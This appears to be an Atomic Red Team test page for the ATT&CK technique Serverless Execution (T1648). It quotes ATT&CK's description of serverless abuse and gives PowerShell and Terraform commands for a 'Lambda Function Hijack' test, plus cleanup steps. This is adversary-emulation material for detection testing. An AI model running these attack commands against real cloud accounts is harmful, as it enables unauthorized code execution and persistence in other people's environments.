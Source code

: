 # T1648 - Serverless Execution
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1648)
<blockquote>

Adversaries may abuse serverless computing, integration, and automation services to execute arbitrary code in cloud environments. Many cloud providers offer a variety of serverless resources, including compute engines, application integration services, and web servers. 

Adversaries may abuse these resources in various ways as a means of executing arbitrary commands. For example, adversaries may use serverless functions to execute malicious code, such as crypto-mining malware (i.e. [Resource Hijacking](https://attack.mitre.org/techniques/T1496)).(Citation: Cado Security Denonia) Adversaries may also create functions that enable further compromise of the cloud environment. For example, an adversary may use the `IAM:PassRole` permission in AWS or the `iam.serviceAccounts.actAs` permission in Google Cloud to add [Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003) to a serverless cloud function, which may then be able to perform actions the original user cannot.(Citation: Rhino Security Labs AWS Privilege Escalation)(Citation: Rhingo Security Labs GCP Privilege Escalation)

Serverless functions can also be invoked in response to cloud events (i.e. [Event Triggered Execution](https://attack.mitre.org/techniques/T1546)), potentially enabling persistent execution over time. For example, in AWS environments, an adversary may create a Lambda function that automatically adds [Additional Cloud Credentials](https://attack.mitre.org/techniques/T1098/001) to a user and a corresponding CloudWatch events rule that invokes that function whenever a new user is created.(Citation: Backdooring an AWS account) This is also possible in many cloud-based office application suites. For example, in Microsoft 365 environments, an adversary may create a Power Automate workflow that forwards all emails a user receives or creates anonymous sharing links whenever a user is granted access to a document in SharePoint.(Citation: Varonis Power Automate Data Exfiltration)(Citation: Microsoft DART Case Report 001) In Google Workspace environments, they may instead create an Apps Script that exfiltrates a user's data when they open a file.(Citation: Cloud Hack Tricks GWS Apps Script)(Citation: OWN-CERT Google App Script 2024)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Lambda Function Hijack](#atomic-test-1---lambda-function-hijack)


<br/>

## Atomic Test #1 - Lambda Function Hijack
Modify an existing Lambda function to execute arbitrary code.

**Supported Platforms:** Iaas:aws


**auto_generated_guid:** 87a4a141-c2bb-49d1-a604-8679082d8b91





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| access_key | AWS Access Key | string | |
| secret_key | AWS Secret Key | string | |
| session_token | AWS Session Token | string | |
| profile | AWS profile | string | |
| region | AWS region to deploy the EC2 instance | string | us-east-2|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module "PathToAtomicsFolder/T1648/src/T1648-1/LambdaAttack.ps1" -Force
$access_key = "#{access_key}"
$secret_key = "#{secret_key}"
$session_token = "#{session_token}"
$aws_profile = "#{profile}"
$region = "#{region}"
Set-AWSAuthentication -AccessKey $access_key -SecretKey $secret_key -SessionToken $session_token -AWSProfile $aws_profile -AWSRegion $region
Invoke-Terraform -TerraformCommand init -TerraformDirectory "PathToAtomicsFolder/T1648/src/T1648-1"
Invoke-Terraform -TerraformCommand apply -TerraformDirectory "PathToAtomicsFolder/T1648/src/T1648-1" -TerraformVariables @("profile=T1648-1", "region=$region")
Invoke-LambdaAttack -AWSProfile "T1648-1" -AWSRegion $region
```

#### Cleanup Commands:
```powershell
Import-Module "PathToAtomicsFolder/T1648/src/T1648-1/LambdaAttack.ps1" -Force
$access_key = "#{access_key}"
$secret_key = "#{secret_key}"
$session_token = "#{session_token}"
$aws_profile = "#{profile}"
$region = "#{region}"
Set-AWSAuthentication -AccessKey $access_key -SecretKey $secret_key -SessionToken $session_token -AWSProfile $aws_profile -AWSRegion $region
Invoke-Terraform -TerraformCommand destroy -TerraformDirectory "PathToAtomicsFolder/T1648/src/T1648-1" -TerraformVariables @("profile=T1648-1", "region=$region")
Remove-MaliciousUser -AWSProfile "T1648-1"
Remove-TFFiles -Path "PathToAtomicsFolder/T1648/src/T1648-1/"
```



#### Dependencies:  Run with `powershell`!
##### Description: The AWS PowerShell module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name AWSPowerShell -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AWSPowerShell -Force
```
##### Description: Terraform must be installed.
##### Check Prereq Commands:
```powershell
terraform --version
```
##### Get Prereq Commands:
```powershell
Write-Host "Terraform is required. Download it from https://www.terraform.io/downloads.html"
```




<br/>
